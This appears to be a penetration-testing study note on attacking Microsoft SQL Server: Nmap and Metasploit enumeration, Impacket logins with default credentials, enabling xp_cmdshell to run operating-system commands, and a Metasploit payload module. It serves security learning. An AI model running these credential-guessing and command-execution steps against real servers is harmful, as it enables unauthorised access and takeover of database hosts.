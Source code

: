 ```yaml
---

layout: post  
title: "MSSQL"  
date: 2024-12-22 
categories: Recon/Active

---
```


### Table of Contents

1. [Introduction to MSSQL](#introduction-to-mssql)  
    1. [Overview of MSSQL](#overview-of-mssql)  
    2. [Default Databases](#default-databases)  
    3. [Default Configuration](#default-configuration)  
2. [Enumeration Techniques](#enumeration-techniques)  
    1. [Service Discovery with Nmap](#service-discovery-with-nmap)  
    2. [Footprinting with Metasploit](#footprinting-with-metasploit)  
3. [Advanced Techniques](#advanced-techniques)  
    1. [Using Impacket's mssqlclient.py](#using-impackets-mssqlclientpy)  
    2. [Enumerating MSSQL Databases](#enumerating-mssql-databases)  
4. [Exploitation Scenarios](#exploitation-scenarios)  
    1. [Weak or Default Credentials](#weak-or-default-credentials)  
    2. [Exploiting xp_cmdshell](#exploiting-xp_cmdshell)  
5. [Combining Tools](#combining-tools)  
    1. [Integrating with Metasploit](#integrating-with-metasploit)  
    2. [Automating MSSQL Attacks](#automating-mssql-attacks)  
6. [Glossary](#glossary)

---

## Introduction to MSSQL

### Overview of MSSQL

Microsoft SQL Server (MSSQL) is a relational database management system (RDBMS) developed by Microsoft. It is commonly used in enterprise environments, especially when paired with the .NET framework.

- **Platform Support**: Initially Windows-only, now supports Linux and macOS.
- **Core Use**: Data storage, retrieval, and manipulation for applications.

---

### Default Databases

| **Database**  | **Description**                                                                      |
|---------------|--------------------------------------------------------------------------------------|
| **master**    | Tracks all system-level information for the SQL Server instance.                    |
| **model**     | Acts as a template for creating new databases.                                      |
| **msdb**      | Used by SQL Server Agent to schedule jobs, alerts, and tasks.                       |
| **tempdb**    | Temporary database for storing intermediate results and temporary tables.           |
| **resource**  | Read-only database containing system objects.                                       |

---

### Default Configuration

- **Default Port**: TCP 1433.
- **Authentication**: Often set to Windows Authentication, leveraging Active Directory for credentials.
- **Encryption**: Not enforced by default.

**Common Configurations**:

```bash
Service Name: MSSQLSERVER
Authentication: Windows Auth or Mixed Mode
Encryption: Optional, often self-signed certificates
```

---

## Enumeration Techniques

### Service Discovery with Nmap

Identify MSSQL services and gather version information.

**Command**:

```bash
nmap -p1433 --script ms-sql-info,ms-sql-empty-password TARGET_IP
```

**Example Output**:

```
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00
| ms-sql-info: 
|   Hostname: SQL-01
|   Instance: MSSQLSERVER
|   Version: Microsoft SQL Server 2019
```

---

### Footprinting with Metasploit

Leverage Metasploit's auxiliary modules for MSSQL reconnaissance.

**Command**:

```bash
use auxiliary/scanner/mssql/mssql_ping
set RHOSTS TARGET_IP
run
```

**Example Output**:

```
[+] ServerName: SQL-01
[+] Instance: MSSQLSERVER
[+] Version: Microsoft SQL Server 2019
[+] TCP Port: 1433
```

---

## Advanced Techniques

### Using Impacket's mssqlclient.py

SecureAuth's `mssqlclient.py` is a powerful tool for connecting to MSSQL instances.

**Command**:

```bash
python3 mssqlclient.py Administrator@TARGET_IP -windows-auth
```

**Example Interaction**:

```sql
SQL> SELECT name FROM sys.databases;
master
tempdb
model
msdb
```

---

### Enumerating MSSQL Databases

Once connected, enumerate available databases and their contents.

**Commands**:

- List databases:

    ```sql
    SELECT name FROM sys.databases;
    ```

- Switch to a database:

    ```sql
    USE database_name;
    ```

- View tables:

    ```sql
    SELECT * FROM INFORMATION_SCHEMA.TABLES;
    ```

---

## Exploitation Scenarios

### Weak or Default Credentials

Test commonly used or default credentials, such as:

- `sa:admin`
- `admin:password123`

**Command**:

```bash
mssqlclient.py sa@TARGET_IP
```

---

### Exploiting xp_cmdshell

Enable and execute commands using `xp_cmdshell`.

**Enable xp_cmdshell**:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

**Execute Command**:

```sql
EXEC xp_cmdshell 'whoami';
```

---

## Combining Tools

### Integrating with Metasploit

**Command**:

```bash
use exploit/windows/mssql/mssql_payload
set RHOST TARGET_IP
set USERNAME sa
set PASSWORD password123
run
```

---

### Automating MSSQL Attacks

Automate common tasks with scripts or tools like PowerShell.

**PowerShell Example**:

```powershell
Invoke-Sqlcmd -ServerInstance TARGET_IP -Query "SELECT name FROM sys.databases;"
```

---

## Glossary

| **Term**                | **Description**                                                |
|--------------------------|--------------------------------------------------------------|
| **MSSQL**               | Microsoft SQL Server, a relational database management system.|
| **xp_cmdshell**         | Extended stored procedure for executing OS-level commands.   |
| **Information Schema**  | Metadata storage for database objects.                       |
| **Named Pipes**         | IPC mechanism for communication between processes.           |
| **Impacket**            | Collection of Python scripts for network protocol interaction.|

---
